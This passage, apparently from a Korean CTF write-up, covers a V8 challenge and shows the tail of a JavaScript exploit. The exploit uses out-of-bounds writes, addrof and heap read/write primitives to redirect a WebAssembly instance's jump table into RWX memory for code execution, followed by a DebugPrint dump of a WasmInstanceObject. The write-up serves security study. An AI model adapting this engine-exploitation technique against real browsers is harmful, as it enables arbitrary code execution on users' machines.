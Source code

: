 ```jsx
    new_vic_arr_elemptr = (addr + -0x8n + 1n);
    oob_write32(38, new_vic_arr_elemptr);
    vic_arr[0] = itof(val);
    oob_write32(38, vic_arr_elemptr);
}

var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 6, 1, 96, 2, 126, 126, 0, 3, 2, 1, 0, 7, 8, 1, 4, 109, 97, 105, 110, 0, 0, 10, 4, 1, 2, 0, 11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance2 = new WebAssembly.Instance(wasmModule);
var f2 = wasmInstance2.exports.main;

wasmInstance_addr = addrof(wasmInstance);
wasmInstance2_addr = addrof(wasmInstance2);

jump_table_addr = wasmInstance_addr + 0x48n - 1n;
jump_table_addr2 = wasmInstance2_addr + 0x48n - 1n;

lower_rwx = lower(heap_read64(jump_table_addr));
upper_rwx = upper(heap_read64(jump_table_addr));
console.log("rwx", hex((upper_rwx << 32n) + lower_rwx));
rwx = (upper_rwx << 32n) + lower_rwx

heap_write64(jump_table_addr2, rwx + 0x81an);

f2(1n, 1n);
```

저는 위에서 설명한 것처럼 WasmInstance를 2개 생성하는 쪽으로 익스플로잇하였습니다. 하지만 1개의 WasmInstance에 함수를 2개 만들어 더 깔끔하게 익스플로잇하는 방법도 있으므로 링크를 남겨 놓겠습니다.([https://d0ublew.github.io/writeups/bi0s-2024/pwn/ezv8-revenge/index.html](https://d0ublew.github.io/writeups/bi0s-2024/pwn/ezv8-revenge/index.html))

## 6.결론

```jsx
DebugPrint: 0x2e5d00298c7d: [WasmInstanceObject] in OldSpace
 - map: 0x2e5d0028ee75 <Map[24](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x2e5d0028ef21 <Object map = 0x2e5d00298c2d>
 - elements: 0x2e5d000006fd <FixedArray[0]> [HOLEY_ELEMENTS]
 - trusted_data: 0x0d3c000400f1 <Other heap object (WASM_TRUSTED_INSTANCE_DATA_TYPE)>
 - module_object: 0x2e5d00048f81 <Module map = 0x2e5d0028ed4d>
 - exports_object: 0x2e5d00049051 <Object map = 0x2e5d00298dad>
 - properties: 0x2e5d000006fd <FixedArray[0]>
 - All own properties (excluding elements): {}

0x2e5d0028ee75: [Map] in OldSpace
 - map: 0x2e5d002816ed <MetaMap (0x2e5d0028173d <NativeContext[289]>)>
 - type: WASM_INSTANCE_OBJECT_TYPE
 - instance size: 24
 - inobject properties: 0
 - unused property fields: 0
 - elements kind: HOLEY_ELEMENTS
 - enum length: invalid
 - stable_map
 - back pointer: 0x2e5d00000069 <undefined>
 - prototype_validity cell: 0x2e5d00000a61 <Cell value= 1>
 - instance descriptors (own) #0: 0x2e5d00000731 <DescriptorArray[0]>
 - prototype: 0x2e5d0028ef21 <Object map = 0x2e5d00298c2d>
 - constructor: 0x2e5d0028ee55 <JSFunction Instance (sfi = 0x2e5d00147981)>
 - dependent code: 0x2e5d0000070d <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0
```

